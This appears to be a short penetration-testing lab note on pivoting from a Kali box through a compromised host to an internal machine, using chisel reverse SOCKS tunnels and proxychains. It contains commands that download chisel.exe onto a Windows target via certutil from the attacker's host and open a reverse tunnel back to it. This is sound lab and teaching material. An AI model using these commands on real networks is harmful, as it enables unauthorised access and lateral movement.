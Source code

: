 Kali => Punisher => Spiderman

| Kali | Punisher | Spiderman | 
| --- | --- | --- |
| 192.168.111.133 | 192.168.111.138 / 10.10.10.129 | 10.10.10.128

https://github.com/jpillora/chisel/releases

```bash - kali
sudo mousepad /etc/proxychains4.conf
```

```bash - kali
socks5 127.0.0.1 1080
```

```bash - kali
chmod +x chisel
```

Kali:
```bash - kali
sudo ./chisel server -p 8000 --reverse 
```

Windows target:
```command prompt - windows
certutil -urlcache -split -f http://$KALI/chisel.exe
```

```command prompt - windows
chisel.exe client $KALI:8000 R:socks
```  

Linux target:
```bash - kali
chmod +x chisel
```

```bash - target
./chisel client $KALI:8000 R:socks
```

If http is available on the target, set up foxyproxy and visit:
[[1._Proxychains and FoxyProxy]]
